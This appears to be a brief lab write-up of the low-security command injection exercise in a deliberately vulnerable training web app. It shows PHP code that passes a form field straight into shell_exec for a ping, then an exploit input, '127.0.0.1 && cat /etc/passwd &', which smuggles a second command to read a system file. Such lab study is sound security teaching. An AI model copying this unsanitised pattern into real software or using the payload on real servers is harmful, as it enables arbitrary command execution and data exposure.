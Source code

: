 # Command Injection

## Security Level - Low

### Source Code
```C
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

### Exploit
![review](images/reviewlowcommaninjection.png)
Submit `127.0.0.1 && cat /etc/passwd &`
![commandinjectionlow](images/commandinjectionlow.png)